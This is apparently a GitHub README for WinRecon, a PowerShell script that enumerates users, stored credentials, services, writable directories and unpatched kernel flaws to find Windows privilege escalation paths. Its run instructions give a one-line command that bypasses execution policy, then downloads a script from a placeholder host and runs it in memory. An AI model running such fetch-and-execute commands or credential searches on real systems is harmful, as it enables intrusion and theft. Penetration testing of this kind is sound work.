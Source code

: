 # ![WinRecon Logo](assets/WinRecon.png)

## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

### User and Group Enumeration
- **Local User Accounts**: Lists all local user accounts and highlights administrative accounts.
- **Group Memberships**: Displays detailed information about group memberships.
- **Domain Information**: Extracts information about domain users and domain controllers when applicable.

### Credential Discovery
- **Stored Credentials**: Identifies credentials stored in the system, such as in the registry or configuration files.
- **Password Policies**: Retrieves domain and local password policies to highlight weak configurations.

### Service and Task Enumeration
- **Services**: Lists services with details like privileges, paths, and configurations.
- **Scheduled Tasks**: Enumerates scheduled tasks to identify potential execution vectors.

### Privilege Escalation Insights
- **System Information**: Extracts OS details, patches, and configurations.
- **Misconfigurations**: Identifies potential misconfigurations, such as writable directories or vulnerable registry keys.
- **Kernel Exploits**: Checks for unpatched kernel vulnerabilities based on OS version.

### File and Directory Insights
- **Sensitive Files**: Searches for files containing potential credentials or sensitive data.
- **Writable Directories**: Lists directories writable by non-privileged users.

### Network Configuration
- **Network Interfaces**: Displays information about active network interfaces.
- **Listening Ports**: Identifies listening ports and associated services.

### Logging and Reporting
- **Comprehensive Logging**: Logs findings to a structured and easily readable format.
- **Export Options**: Provides options to save results for later analysis.

---

## How to Run

1. **For full AD options you will need to download PsLoggedon.exe and PowerView.ps1**.
2. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```



